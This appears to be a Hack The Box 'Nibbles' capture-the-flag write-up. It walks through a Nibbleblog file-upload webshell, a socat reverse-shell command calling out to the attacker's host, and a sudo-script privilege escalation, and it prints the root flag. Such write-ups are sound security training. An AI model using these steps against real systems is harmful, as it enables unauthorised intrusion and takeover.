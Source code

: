 ```yaml
---
layout: single
title: Nibbles Writeup
date: '2019-12-18 17:10:00'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2019/2019-12-18-nibbles-writeup/nibbles.png
    text: "https://app.hackthebox.eu/machines/121"
typora-copy-images-to: ../images/posts/2019/${filename}/
---
```


Another easy box, though slightly more involved than some others.…

## Enumeration

The usual Autorecon enumeration turned up ports 80 & 22 open. Taking a look at the webserver running on port 80 revealed a Hello World page but looking at the source showed an interesting comment:

![Screenshot-from-2019-12-18-10-53-06](../images/posts/2019/2019-12-18-nibbles-writeup/Screenshot-from-2019-12-18-10-53-06-8419180.png)

Going to /nibbleblog we can see that it's running an instance of the [Nibbleblog](http://www.nibbleblog.com/) software.

A search on ExploitDB lists an file upload [vulnerability](https://www.exploit-db.com/exploits/38489) but we need a username and password. I spent a while hunting around before trying `admin/nibbles` which worked. I'm not a big fan of password guessing like this, but I guess it is realistic!

## Initial Exploitation

Following the PoC [here](http://blog.curesec.com/article/blog/NibbleBlog-403-Code-Execution-47.html) I first grabbed a PHP Webshell. I choose [php33r](https://www.fuzzysecurity.com/scripts/16.html) as I hadn't used it before and it looked pretty neat.

I uploaded the file as detailed and then visited the location and I indeed had a webshell on the server:

![Screenshot-from-2019-12-18-11-02-14](../images/posts/2019/2019-12-18-nibbles-writeup/Screenshot-from-2019-12-18-11-02-14.png)

I had a quick look around and it turned out to be easy to grab user.txt

![Screenshot-from-2019-12-18-11-04-19](../images/posts/2019/2019-12-18-nibbles-writeup/Screenshot-from-2019-12-18-11-04-19.png)

## Privilege Escalation

I noticed the `personal.zip` file in the home directory so I copied this to a location that was accessible from the web and downloaded it to my Kali box. Extracting it revealed the following structure, and monitor.sh seemed to be a system monitoring script, which wasn't a lot of use at the moment.
```bash
    personal
    └── stuff
        └── monitor.sh
    
    1 directory, 1 file
```

At this point I decided I wanted a proper shell rather than having to interact with the webshell. The webshell had the ability to upload files, so I uploaded my local copy of `socat` and did a `chmod u+x socat` at the remote end to make it exectuable.

I ran the listener on my Kali box with:
```bash
    socat file:`tty`,raw,echo=0 tcp-listen:4444  
```
and then used the webshell to run
```bash
    ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.4:4444  
```
This allowed me to catch a full tty enabled shell.

At this point I tried `sudo -l` but this seemed to hang. I went on and tried other things, before just being more patient and actually getting a response as a lookup for the box name was timing out.

This revealed that the nibbler account could run `/home/nibbler/personal/stuff/monitor.sh` as root with no password. Creating a quick script with `/bin/bash -i` in it and then running with `sudo /home/nibbler/personal/stuff/monitor.sh` we get a root shell and can grab the flag `b6d745c0dfb6457c55591efc898ef88c`
